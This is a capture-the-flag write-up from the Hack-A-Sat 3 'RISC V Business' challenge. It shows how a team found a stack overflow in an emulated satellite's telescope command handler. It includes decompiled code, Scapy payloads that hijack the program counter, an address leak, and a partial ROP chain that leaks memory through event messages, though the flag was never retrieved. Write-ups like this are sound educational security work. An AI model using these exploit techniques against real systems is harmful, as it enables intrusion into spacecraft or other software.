 # HACK-A-SAT 3: RISC V Business

* **Category:** Flight Software - scavenger
* **Points:** 100 divided among teams per flag
* **Description:**

## Write-up

_Write-up by Solar Wine team_

By reverse-engineering `telescope.so` we noticed that it is able to handle more commands than what we could see in the production COSMOS instance. In `cromulence::TelescopeApp::processCommand`:

```c
case 105: /* pseudocode */
    CmdMessage<cromulence::messages::TelescopeMultipleMissionRequest,(unsigned_short)6545,(unsigned_ short)105>::CmdMessage(aCStack120,param_1);
    handleBulkMissionRequest(this,&TStack112);
    CmdMessage<cromulence::messages::TelescopeMultipleMissionRequest,(unsigned_short)6545,(unsigned_ short)105>::~CmdMessage(aCStack120);

case 4:
    CmdMessage<cromulence::messages::TelescopeMissionData,(unsigned_short)6545,(unsigned_short)4>::CmdMessage((CmdMessage<cromulence::messages::TelescopeMissionData,(unsigned_short)6545,(unsigned _short)4>*)aCStack120,param_1);
    Telescope::storeMission(&this->telescope,(TelescopeMissionData *)&TStack112);
    CmdMessage<cromulence::messages::TelescopeMissionData,(unsigned_short)6545,(unsigned_short)4>::~CmdMessage((CmdMessage<cromulence::messages::TelescopeMissionData,(unsigned_short)6545,(unsigne d_short)4>*)aCStack120);
```

Their behavior is documented in the COSMOS instance of the Digital Twin as part of the `TELESCOPE` app:

* `BULK_MISSIONS` (function code 105)
* `STORE_MISSION_DATA` (function code 4)

These commands are handled by the following methods:

```C
cromulence::TelescopeApp::handleBulkMissionRequest(TelescopeApp *this, TelescopeMultipleMissionRequest *param_1)
cromulence::Telescope::storeMission(Telescope *this, TelescopeMissionData *param_1)
```

While looking at `handleBulkMissionRequest` we noticed a stack overflow vulnerability:

```c
void __thiscall
cromulence::TelescopeApp::handleBulkMissionRequest
          (TelescopeApp *this,TelescopeMultipleMissionRequest *param_1)
{
  BULK_MISSION_LOCALVARS loc;

  zeromem_locals(&loc);
  loc.mission_count = (uint)param_1->count;
  if (26 < loc.mission_count) {
    // VULNERABILITY: the array can only contain 13 missions (26 bytes)
    loc.mission_count = 26;
  }
  loc.p_mids = loc.list_mids;
  for (loc.i = 0; loc.i < loc.mission_count; loc.i = loc.i + 1) {
    *loc.p_mids = param_1->mids[loc.i]; // VULNERABILITY: possible OOB write
    loc.mid_request = *loc.p_mids;
    loc.p_mids = loc.p_mids + 1;
    // copy after 12 bytes header
    loc.has_mission =
         Telescope::getMission
                   (&this->telescope,(TelescopeMissionRequest *)&loc.mid_request,
                    (TelescopeMissionData *)&(this->tlm_mission_data).field_0xc);
    if (loc.has_mission == 1) {
      TlmMessage<cromulence::messages::TelescopeMissionData,(unsigned_short)218>::send
                (&this->tlm_mission_data);
    }
    else {
      CFE_EVS_SendEvent(1,4,"Telescope App: Mission does not exist");
    }
  }
  CFE_PSP_MemCpy(this->house_keeping + 0x138,loc.list_mids,26);
  return;
}
```

By sending a `BULK_MISSIONS` with more than 13 mission descriptors we were able to trigger the overflow.

To develop a proper exploit, we launched the firmware in our QEMU-user setup, plugged GDB on it and interacted with this virtual satellite using Python and Scapy.
The `BULK_MISSIONS` packet was defined with a 52-byte payload directly:

```python
class TELESCOPE_BULK_MISSIONS_CmdPkt(Packet):
    name = "TELESCOPE_BULK_MISSIONS_CmdPkt"
    fields_desc = [
        ByteField("COUNT", 8),
        StrFixedLenField("MISSION_IDS", b"", 52),  # 26 uint16 (instead of 13)
    ]


bind_layers(CCSDSPacket, TELESCOPE_BULK_MISSIONS_CmdPkt, pkttype=1, apid=0x191,
            cmd_func_code=105)

def telescope_bulk_messages(count, mission_ids):
    codec.high_push(CCSDSPacket() / TELESCOPE_BULK_MISSIONS_CmdPkt(
        COUNT=count, MISSION_IDS=mission_ids))
```

Then, we tried calling:
```python
telescope_bulk_messages(26, b"\0" * (26 + 12) + struct.pack("<I", 0x11223344))
```

We got a promising crash in GDB which confirmed that we controlled the program counter register (`pc` is set to `0x11223344`):

```text
Thread 2 received signal SIGSEGV, Segmentation fault.
[Switching to Thread 1.718494]
0x11223344 in ?? ()
=> 0x11223344:
Cannot access memory at address 0x11223344

(gdb) bt
#0  0x3f576cea in ?? ()

(gdb) info register
ra             0x3f576cdc   0x3f576cdc
sp             0x3fffe9e0   0x3fffe9e0
gp             0x3f6b8314   0x3f6b8314
tp             0x3f664d20   0x3f664d20
t0             0x2a         42
t1             0x3f67497c   1063733628
t2             0x3fffe284   1073734276
fp             0x3f7fc350   0x3f7fc350
s1             0x1          1
a0             0x3f7fc350   1065337680
a1             0x8          8
a2             0x3f664844   1063667780
a3             0xa          10
a4             0x3f664d20   1063669024
a5             0x0          0
a6             0x0          0
a7             0x85          133
s2             0x0          0
s3             0x3f6b5bcc   1064000460
s4             0x3f69af1c   1063890716
s5             0x3fffeb60   1073736544
s6             0x4001f040   1073868864
s7             0x4001ee60   1073868384
s8             0x3f6b5bcc   1064000460
s9             0x0          0
s10            0x0          0
s11            0x0          0
t3             0x3f576cae   1062694062
t4             0x3fffe918   1073735960
t5             0x0          0
t6             0x0          0
pc             0x3f576cea   0x3f576cea
```

Moreover, using the command `CFE_ES SEND_APP_INFO`, we were able to leak the address of `core-cpu1` and all `.so` files related to applications.
This is a perfect setup to exploit a stack-based buffer overflow, isn't it?

Well... the issue is that the overflow is very tight.
Here is a summary of the state of the stack in `handleBulkMissionRequest` when it returns (using `s0` as the frame pointer register).

```text
at s0-0x3c+0x12 = s0 - 0x2a : uint16_t mids[13] (mids[0,1...,12], 26 bytes)
                  s0 - 0x10 :                   = mids[13,14] (4 bytes)
                  s0 -  0xc :                   = mids[15,16]
                  s0 -    8 : saved s0          = mids[17,18]  => put in s0
                  s0 -    4 : saved ra          = mids[19,20]  => put in ra
                  s0        : ...               = mids[21,22]
                  s0 +    4 : ...               = mids[23,24]
                  s0 +    8 : ...               = mids[25]
```

Field `MISSION_IDS` of the incoming packet is copied to this `uint16_t mids[13]` variable at `s0 - 0x2a` with a size which can be at most 2*26 = 52 bytes.
Considering how the stack is, we can overwrite `s0` (the saved frame pointer), `ra` (the saved return address) and only two more 32-bit values.
It is not much space at all for a ROP chain!

But we found some nice ROP gadgets which could enable sending an event with some leaked data, to transform this vulnerability into an arbitrary read.
The objective would be to disclose the content of the `telescope_flag` global variable.

For example in `core-cpu1` there is:

```text
000226ac 93 07 44 f7          addi       a5,s0,-0x8c
000226b0 be 86                c.mv       a3,a5
000226b2 17 26 03 00          auipc      a2,0x32
000226b6 13 06 e6 d8          addi       a2       = "Exit Application %s Completed."
000226ba 89 45                c.li       a1,0x2
000226bc 35 45                c.li       a0,0xd
000226be ef 00 81 0c          jal        ra,CFE_EVS_SendEvent
000226c2 b5 ac                c.j        LAB_0002293e
```

Jumping to it should display `Exit Application %s Completed.` with some value which comes from `s0 - 0x8c`.
Also, even though we are corrupting the frame pointer `s0`, the stack pointer is not actually corrupted: every function starts by decrementing `sp` by some value and ends by incrementing `sp` with the same value.
This means that even though we can corrupt `s0`, we will still be able to call functions, as the stack pointer is not corrupted.

Let's try to display the content of the string `"Yay science!"` at `0x00025050` in `telescope.so`.

* We send command `CFE_ES SEND_APP_INFO` with `APP_NAME = "TELESCOPE"` to leak the start address of the `TELESCOPE` application, `Telescope_AppMain` (at `0x0001f0f8` in `telescope.so` in Ghidra)
* We receive `START_ADDR = 902914296` (`0x35d160f8`)
* We send command `CFE_ES SEND_APP_INFO` with `APP_NAME = "CFE_ES"` to leak the start address of the `CFE_ES` application, `CFE_ES_TaskMain` (at `0x00028148` in `core-cpu1` in Ghidra)
* We receive `START_ADDR = 1063772488` (`0x3f67e148`)
* We send command `TELESCOPE BULK_MISSIONS` with a `MISSION_IDS` parameter which overwrites `s0` with the address of `"Yay science!"` shifted by `0x8c` and `ra` with the ROP Gadget

```python
telescope_bulk_messages(26, b"\0" * (26 + 8) + struct.pack("<II",
    0x00025050 + 0x8c - 0x0001f0f8 + 902914296,  # s0 value
    0x000226ac - 0x00028148 + 1063772488))       # ra value
```

The virtual satellite displays:

```text
EVS Port1 42/1/TELESCOPE 1: Telescope App: Mission does not exist
EVS Port1 42/1/TELESCOPE 1: Telescope App: Mission does not exist
EVS Port1 42/1/TELESCOPE 1: Telescope App: Mission does not exist
EVS Port1 42/1/TELESCOPE 1: Telescope App: Mission does not exist
EVS Port1 42/1/TELESCOPE 1: Telescope App: Mission does not exist
EVS Port1 42/1/TELESCOPE 1: Telescope App: Mission does not exist
EVS Port1 42/1/TELESCOPE 1: Telescope App: Mission does not exist
EVS Port1 42/1/TELESCOPE 1: Telescope App: Mission does not exist
EVS Port1 42/1/TELESCOPE 1: Telescope App: Mission does not exist
EVS Port1 42/1/TELESCOPE 1: Telescope App: Mission does not exist
EVS Port1 42/1/TELESCOPE 1: Telescope App: Mission does not exist
EVS Port1 42/1/CFE_SB 25: Pipe Overflow,MsgId 0x808,pipe KIT_TO_PKT_PIPE,sender TELESCOPE
...
EVS Port1 42/1/CFE_SB 25: Pipe Overflow,MsgId 0x808,pipe KIT_TO_PKT_PIPE,sender TELESCOPE
EVS Port1 42/1/TELESCOPE 13: Exit Application Yay science! Completed.
*** stack smashing detected ***: terminated
```

We got `EVS Port1 42/1/TELESCOPE 13: Exit Application Yay science! Completed.` !!!
But `handleBulkMissionRequest` is overflowing the event log pipe before it returns.
So the client only sees 10 events `Telescope App: Mission does not exist` from the telemetry and never sees the last one with the interesting message.

Moreover the GDB setup we used was quite buggy with the virtual satellite: trying to configure breakpoints made GDB disconnect from QEMU.
In the end, we did not manage to fix our exploit to make it leak the `telescope_flag` and we ran out of time.
